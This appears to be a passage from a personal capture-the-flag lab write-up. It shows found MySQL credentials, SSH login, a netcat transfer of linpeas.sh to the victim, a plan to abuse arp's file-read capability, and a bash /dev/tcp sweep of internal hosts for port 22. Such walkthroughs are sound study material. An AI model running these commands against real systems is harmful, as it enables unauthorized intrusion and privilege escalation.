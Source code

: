 pay attention to `/check_db` so lets download that and checking it we found this:

```json
{
	"MYSQL_PASSWORD=drew",
	"MYSQL_ROOT_PASSWORD=XeoNu86JTznxMCQuGHrGutF3Csq5",
}
```

and using [[ssh]] we are inside.

![[Pasted image 20250425003614.png]]

now, we can use [[linpeas.sh]] to try get ways to escalate privileges

to upload `linpeas.sh` to victim machine can use [[netcat (nc)]] in this way:

```bash
nc -nlvp 1234 > linpeas.sh
```

and on host machine:

```bash
nc 10.10.11.110 1234 < ./tools/linpeas.sh
```

and we find mails interestings

![[Pasted image 20250425144704.png]]

![[Pasted image 20250425144725.png]]

user `game-adm` exists on our machine and it in group `adm`

![[Pasted image 20250425144801.png]]

if we list capabilities 

![[Pasted image 20250425145439.png]]

and [[arp]] act as [[suid]] because of `ep` capability.
with `arp` we can read files but we need be part of the group `adm`

![[Pasted image 20250425145738.png]]

so we need to know from which game are talking about in the mail.
In `.ssh` folder of drew we found a `id_rsa.pub` for user `game-tester` in server `game-server`

![[Pasted image 20250425150221.png]]
so, checking the network with the next script we can to know what hosts have the [[port 22]] open to connect.

```bash
#!/bin/bash

targets=(172.18.0.100 172.18.0.101 172.18.0.102 172.18.0.2 172.19.0.2 172.19.0.4)

function ctrl_c() {
  echo -e "\n\t[!] Exiting.\n"
  exit 1
}
trap ctrl_c INT

for target in ${targets[@]}; do
  timeout 1 bash -c "echo '' > /dev/tcp/$target/22" 2>/dev/null && echo "[+] $target:22"
done

```
